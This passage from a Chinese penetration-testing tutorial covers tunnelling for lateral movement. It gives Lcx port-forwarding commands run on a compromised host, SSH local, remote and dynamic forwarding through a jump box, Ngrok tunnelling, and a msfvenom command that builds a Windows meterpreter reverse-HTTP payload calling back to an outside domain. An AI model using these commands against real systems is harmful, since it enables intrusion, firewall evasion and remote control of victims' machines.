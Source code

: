 Lcx是传输层经典的转发工具。Lcx是一个基于Socket套接字实现的转发工具，其linux版本为portmap。一个正常的Socket隧道必须具备两端：一端为服务端，负责监听一个端口并等待客户端连接；另一端为客户端，通过服务端的地址和端口与其连接，并转发相应的数据给服务端。  
在自己的公网vps（即服务端）执行监听命令，将本机4444端口上监听的所有数据转发给本机的5555端口，以便其它机器访问。  
Lcx.exe -listen 4444 5555  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-a83df105eeeb2734eaffbdd4dc4a5493.png)  
在受控端（即客户端）执行数据转发命令，将目标机器的80端口转发到公网vps的4444端口。  
Lcx.exe -slave 公网ip 4444 目标机器IP 80  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-c57022b25945d2c7a3ecda25cf6a470c.png)  
我们通过vps的ip和5555访问到目标机器的80端口：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-aa75dcd338436f7967ef7781eeebe82a.png)

同样地lcx也常用于本地端口映射，当目标服务器由于防火墙限制，部分端口没能通过防火墙时，可以将目标服务器响应端口数据转发到防火墙允许的端口。在目标服务器执行下面命令，即可把远程桌面转到53端口：  
Lcx -tran 53 目标服务器IP 3389

## 6.3 应用层隧道

```plain
应用层的隧道通信主要利用应用软件提供的端口转发数据。常见的应用层隧道协议有SSH、HTTP、DNS等。其中SSH协议通常是被允许通过防火墙和边界设备的，且内网中Linux设备都支持SSH协议，同时SSH的传输过程是加密的，使得难以区分合法的SSH和攻击者建立的隧道。
常用的SSH隧道有以下几种类型：本地转发、远程转发、动态转发。SSH命令常用参数有:
```

\-C：压缩传输，提高速度。  
\-f: 后台执行  
\-N:建立静默连接  
\-g:允许远程主机连接本地用于转发的端口  
\-L:本地端口转发  
\-R:远程端口转发  
\-D:动态端口转发  
\-P:指定SSH端口

本地转发：  
在VPS执行如下相应命令，该命令以web服务器为跳板，将内网服务器的端口映射到公网的vps上，我们访问对应公网vps的端口即可。  
Ssh -CfNg -L 公网VPS端口:目标主机IP:目标端口号 root@跳板机IP

远程转发：  
当公网的vps不能访问访问到内网的服务器（包括web服务器），但web服务器能访问到公网的vps时，我们在web服务器执行如下相应命令，该命令以web服务器为跳板，将vps端口的流量转发到内网服务器相应端口上，我们访问对应公网vps的端口即可。  
Ssh -CfNg -R vps端口:目标主机IP:目标端口号 root@跳板机IP

动态转发：  
动态端口映射时建立一个ssh加密的socks4/5代理通道，任何支持socks4/5协议的程序都可以通过此通道进行代理访问。我们在vps上执行如下命令：  
ssh -CfNg -D 7000 root@代理主机IP

## 6.4 Ngrok实现内网穿透

执行命令./sunny clientid d8d99b5ff5d4996  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-5fa5c8809bf97b162ce4b067c38899d1.png)  
访问对应的域名，确认能连接成功：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-095a2065690dd72e2d1c9148f00e9dc7.png)  
执行命令生成相应的exe：  
msfvenom -p windows/meterpreter/reverse\_http lhost=mai1zhi2.free.idcfengye.com lport=80 -f exe -o h7.exe  
设置好相应的payload后，打开监听，运行exe：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-b39b0cc451bf0890b00ce991065138bc.png)
